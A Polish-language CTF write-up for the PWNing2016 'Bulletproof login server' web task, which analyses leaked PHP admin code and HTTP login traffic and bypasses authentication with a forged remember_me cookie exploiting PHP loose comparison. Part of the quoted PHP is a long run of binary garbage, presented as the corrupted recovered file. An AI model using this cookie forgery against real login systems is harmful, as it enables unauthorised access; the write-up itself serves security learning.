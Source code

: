 ```yaml
---
title: Bulletproof login server™ - PWNing2016
author: k1k9
categories: [PWNing2016, web]
tags: [ctf, pwning2016]
---
```

# Bulletproof login server™ 
Punkty: 100
Rozwiązań: 49

Panel admina firmy Januszex z Randomia. Nie włamiesz się.
Link: https://monk.pwning2016.p4.team
Udało nam się znaleźć na śmietniku ich stary dysk twardy z którego odzyskaliśmy część kodu strony.

# Rozezeznanie
Mamy dostępne dwa linki, jeden do strony a drugi do kodu pliku o nazwie ```admin.php.corrupted.txt```
![jeden do strony](/assets/posts/bulletproof-login-server-tm/1.png)

## admin.php.corrupted.txt
Zaczniemy od analizy pliku ```admin.php.corrupted.txt```. Kod w pliku prezentuje się tak:
```php
<?php

require('../auth_funcs.php');

ini_set('display_errors', 1);
error_reporting(E_ALL);
$auth = false;

if (isset($_COOKIE['remember_me'])) {
    $obj = json_decode($_COOKIE['remember_me'], true);
    
    if ($obj['login'] == 'demo' && $obj['token'] == getUserAuthToken('demo')) {
        $auth = 'demo';
    }
    
    if ($obj['login'] == 'admin' && $obj['token'] == getUserAuthToken('admin')) {
        $auth = 'admin';
    }
}

if (!$auth) {
    echo('Sorry, you are not authenticated :(<br>');

    if (isset($_COOKIE['remember_me'])) {
        echo('<pre>'.htmlentities(var_ex�
�z��٥o��������Bo�>�P{w`^��X�1L�YYO��Z�)M�>��*����z�r4�9�����z0���m��ܵ������Z�
-0�5(��o���i���p#74�pKLʒ�fj�J�b���AqF�];3y�-R����;�x�H�HpQ�`d�ڧ��
q�@C����8
�*��R�P<���X���E>Y@_(�;0�߷��}��#�H#�H��h�e]Њ��m��=r�K�i)�Ǝ�Ϡ�^J���c�7�c갚Q��Z�<�m�M��-&UwZ��I�K
T���;�f��9d�iFuo0���l��$�Q{�w>s��i�~�`����	Di+�\�}y"��vq���7]���F���+'7�i��&?��l���Ȑ��+���%��[�/�gnh�¸G�Ǆ����.�d�PD��{�����y>�В�H"u�,|;1ן�*�A����d#�&S%�4�ς�)�hL,�-d��n��4���b�9�;��q�/�g�D�N~�����}u�Q-G��Me���*eܙ@?(�e��G��bA��^ �ʅ��6,G-x���Ia��ɩv3]�{��*�P&ڐ�;E�2?f�9�'�ҩ�+��u���A�P�'���QEH�OJ����3�Vk�
�
qoIq�{���Du1��eZ)�w��P:h������@�J+�����Be��+�\����vy���d� T�Jş=X]N�U��������Ed���a���~�<@\���V�e�Y��ޕN-�-�o��͕�Q$�(�
Rb���"�"+��>����������<��ZYC�+�#*��x�氹:M��W��LY8c�vgˑ�"��`�E[R���x�����s�(��͈qV2�ۤ�p�t�K�7GMT%>���/�l^�,�P���@�:��T�>r�w>	�����N~!�b�� �݋}��9̷
o���󮶭�3�J�s
1��NcE�=���#�I_��T�F
;񢢤�-	m���U�՛�[D
�w����{a�{x��tb,G�����~Pj��Jt`�S�%>l�����%������Q��J��"&Y<�8NB����R�%����{������+��^��C����M������ )�Z�\;��4��;[��r�b�+�
�X}H+8�b)���X��*��m�0�!�+����9cBJ�oW����,�}���VJ{�c����_c��v��-/USo���pQ��X��aj�l4脷�*�P��)ƹq(o*�dfR��Bv���z�@�6ܾ?��l��ZtۊǿG��I�o#�����QDY8�Wԗ�8�>:��yr��5Y�;�JɎ�T�����3���fdAI�3n7���vԽ�ꓠg��I^#�ޘ}��iP�=j����n��W�[�Z���[v�T1q[�DS^�l�Y�C��\���C�LF��r80�?�N9_�Bz��.o�)
�MP�4@���-J�/T����������ýv�fJ<�jg ���3���z.v�d��ğ�[P��g!2ͤ�yQ3�������C������,x��p<R5+)5�2�E�#/�[9��֎��[�T�S��H�G����	D��m�S���k��t�!��`�Q��݆�����A�$��&A�\��ځk����{k'��ɗ �C%���Kl�M�#]�?=Ub(g�8!ˏ��~���CUí��8�@���iȣ���=D��Q�7R'�B0����!0PU���]�8���5*�F�,�0������?9/w`��	T.>ͫc~���
�k���Bc��0����`���զ5C�l����.*�(���opGAB��m��<��Pl�ie�E�Q�b����ZGɒ�-�w�Oq�W�������y�M�N�CfB������e"�<(X�m�i@j%^��<$C��V4�! _}�����R����!mz]!��9������s�9߰,�}��8٣�!�����p�X�����4�5�p��|m�Z�}*�H�Vh��V
```
A oto moje wnioski:
1.  Uwierzytelnianie użytkownika opiera się na ciasteczku ```remember_me```, które składa się z _loginu_ (```admin``` || ```demo```) oraz _tokenu_, który jest sprawdzany za pomocą funkcji ```getUserAuthToken(<login>)```.
2. Jeżeli nie jesteśmy zalogowani a ciasteczko ```remember_me``` jest ustawione, to zostanie wywołany kod echo.

Niewiele informacji ale sprawdźmy reszte

## login.php
Po wejściu na strone widzimy panel logowania, który informuje nas o użytkowniku demo (natkneliśmy się na niego również w kodzie, wcześniej) oraz o haśle jakie ma. 
![2](/assets/posts/bulletproof-login-server-tm/2.png)

Po zajrzeniu w kod strony nic po za bootstrapem i formularzem ciekawego nie ma:
```html
<form action="" method="POST" enctype="multipart/form-data">
    <div class="form-group">
    <label for="login">Login</label>
    <input type="text" name="login" class="form-control">
    </div>
    <div class="form-group">
    <label for="password">Password</label>
    <input type="password" name="password" class="form-control">
    </div>
    <div class="checkbox">
    <label>
        <input type="checkbox" checked disabled> For your convenience we always remember you.
    </label>
    </div>
    <button type="submit" class="btn btn-default">Submit</button>
</form>
```

Sprawdzę jak wygląda wysyłanie requestu logowania:
### Błędne dane
```http
POST /login.php HTTP/2
Host: monk.pwning2016.p4.team
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------264215124639808579761785133742
Content-Length: 296
Origin: https://monk.pwning2016.p4.team
Connection: keep-alive
Referer: https://monk.pwning2016.p4.team/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
TE: trailers

-----------------------------264215124639808579761785133742
Content-Disposition: form-data; name="login"

1337
-----------------------------264215124639808579761785133742
Content-Disposition: form-data; name="password"

1337
-----------------------------264215124639808579761785133742--
```
Odpowiedź nie jest interesująca

### Konto demo
```http
POST /login.php HTTP/2
Host: monk.pwning2016.p4.team
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------164494905017473373402467738118
Content-Length: 299
Origin: https://monk.pwning2016.p4.team
Connection: keep-alive
Referer: https://monk.pwning2016.p4.team/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------164494905017473373402467738118
Content-Disposition: form-data; name="login"

demo
-----------------------------164494905017473373402467738118
Content-Disposition: form-data; name="password"

demo123
-----------------------------164494905017473373402467738118--
```
Od razu możemy zauważyć, że ```Content-Type: multipart/form-data; boundary=``` różni się od poprzedniego. Odpowiedź:
```http
HTTP/2 302 Found
server: nginx
date: Mon, 19 Jun 2023 05:15:40 GMT
content-type: text/html; charset=UTF-8
content-length: 0
set-cookie: remember_me=%7B%22login%22%3A%22demo%22%2C%22token%22%3A%22f0d34353e4de11b28825dc2a5736c17504804013%22%7D; expires=Mon, 03-Jul-2023 05:15:40 GMT; Max-Age=1209600
location: admin.php
X-Firefox-Spdy: h2
```
Natomiast w odpowiedzi zostaje ustawione ciasteczko:
```json
{"login":"demo","token":"f0d34353e4de11b28825dc2a5736c17504804013"}
```
Jeżeli podmienimy ciasteczko na:
```json
{"login":"demo","token":"0000000000000000000000000000000000000000"}
```
otrzymamy:
![3](/assets/posts/bulletproof-login-server-tm/3.png)
Czyli już mniej więcej wiemy za co odpowiada wcześniej analizowany przeze mnie kod. Sprawdźmy czy jest tu możliwe wykonanie wrzucenie czegoś innego. Wyślemy:
```sh
{"login":"admin","token":true}
```
Po sformatowaniu na poprawne URL mamy:
```sh
%7B%22login%22:%22admin%22,%22token%22:true%7D
```
Oj i mamy flagę.

## Podsumowanie
Po przeanalizowaniu kodu jeszcze raz okazuje się, że kod który był zaciemniony jest niepotrzebny a cały problem polegał na walidacji danych:
```php
if ($obj['login'] == 'admin' && $obj['token'] == getUserAuthToken('admin'))
```
Problemem jest użycie operatora ```==``` zamiast ```===``` powoduje to rzutowanie zwracanej wartości funkcji ```getUserAuthToken('admin')``` na wartość boolowską a z racji, że jest to nie pusty string to otrzymujemy true, gdzie finalnie otrzymujemy ```true == true```